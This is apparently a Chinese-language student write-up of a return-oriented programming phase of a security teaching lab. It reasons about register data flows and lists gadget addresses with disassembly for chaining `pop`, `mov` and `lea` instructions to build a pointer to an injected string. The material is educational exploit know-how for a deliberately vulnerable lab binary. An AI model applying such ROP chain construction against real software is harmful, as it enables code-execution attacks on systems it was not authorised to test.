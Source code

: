 不过还有一点，我们把 `%rsp` 传给 `%rax` 时，`%rsp` 指向的内容是一个 8 字节的下一步要跳转的地址，我们是不可能在这个地方放置数据的

一个想法是，我们希望 `mov %rsp,%rax` 之后再 `pop` 一下，让 `%rsp` 往下走一下

要实现这个，我们可能需要 `89 e0` 到 `89 e7` 后面找 `58` 到 `5f`，可惜根本找不到。

于是到这里就完全卡住了，我几乎把能用到的指令全找出来了。大概是：

- 可以使用 `pop %rax` 将栈中数据转移到 `%rax`
- 可以通过 `mov` 指令将 `%esp` 数据转移到 `%rax`

然后数据从 `%rax` 有两个走向

- `%rax` -> `%edi`
- `%rax` -> `%edx` -> `%ecx` -> `%esi`

不过现在还是难以获得注入字符串数据的指针。在这里卡了快一天了，最后直接让 ai 给了一点提示。ai 说注意使用 `lea` 指令。于是我突然意识到，我们不光可以从字节中直接截取出指令，还能直接利用现有的指令，比如这里就有个非常关键的地方：

```
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	ret
```

这个可以让 `%rax` 变为 `%rdi + %rsi`，而 `%rdi` 和 `%rsi` 是可以根据我们上面分析出来的数据走向得到的

先整理一下我们用到的指令的地址：

```
popq %rax: 0x4019cc
00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	ret
movq %rsp,%rax: 0x401a06
0000000000401a03 <addval_190>:
  401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
  401a09:	c3                   	ret
movq %rax,%rdi: 0x4019a2
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	ret
movl %eax,%edx: 0x4019dd
00000000004019db <getval_481>:
  4019db:	b8 5c 89 c2 90       	mov    $0x90c2895c,%eax
  4019e0:	c3                   	ret
movl %edx,%ecx: 0x401a34
0000000000401a33 <getval_159>:
  401a33:	b8 89 d1 38 c9       	mov    $0xc938d189,%eax
  401a38:	c3                   	ret
movl %ecx,%esi: 0x401a27
0000000000401a25 <addval_187>:
  401a25:	8d 87 89 ce 38 c0    	lea    -0x3fc73177(%rdi),%eax
  401a2b:	c3                   	ret
lea (%rdi,%rsi,1),%rax: 0x4019d6
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	ret
```
